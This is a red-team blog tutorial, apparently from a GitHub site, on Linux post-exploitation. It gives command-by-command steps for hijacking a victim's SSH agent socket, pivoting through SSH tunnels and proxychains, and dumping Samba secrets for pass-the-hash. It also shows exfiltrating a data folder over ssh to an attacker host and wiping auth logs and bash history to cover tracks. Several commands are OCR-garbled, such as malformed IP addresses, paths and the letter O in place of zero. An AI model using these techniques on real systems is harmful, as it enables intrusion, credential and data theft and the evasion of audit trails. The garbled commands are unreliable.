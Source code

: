 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.4
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Lateral Movement And Exfiltration & more.


## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking*

In order for this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

``
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can login to remote systems as the victim
ssh remote_system -l vicitm
``

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 ,forward to attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunnelling

``
https://github.com/sshuttle/sshuttle
``

**Proxy chaining**

ProxyChains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal hosts services and internal network.

**VPNPivot**
VPN Pivot sends and receive a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the dhcp server or statically configured.

Installation

``
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
``
**Usage :**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
``
The options are :

    server IP : the IP address of the server (pivots)
    
    server port : the port which the server is listening on
    
    locale IP : the IP address of the network interface connected to the unreachable network.
    
    MTU	: the MUT is optional unless you're changing it in pivots
``




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in domain we can compromise it using pass the hash technic.

I will explain pass the hash in upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from target machine, and owning that data to see severity.

There are many techniques to move data from target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing  hands, after did a sin. 

Clear auth.log file
``
echo "" /var/log/auth.log
``
Clear current user bash history
``
echo "" -/.bash history
``
Delete .bash_history file
``
rm -/.bash histor/ -rf
``
Clear current session history
``
history -c
``
Set history max lines to 0
``
export HISTFILESIZE=O
``
Set histroy max commands to 0
``
export HISTSIZE=O
``
To kill current session
``
kill -9 $$
``
To perrnanently send all bash history commands to /dev/null
``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practise.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistance in upcoming red team series.**_









































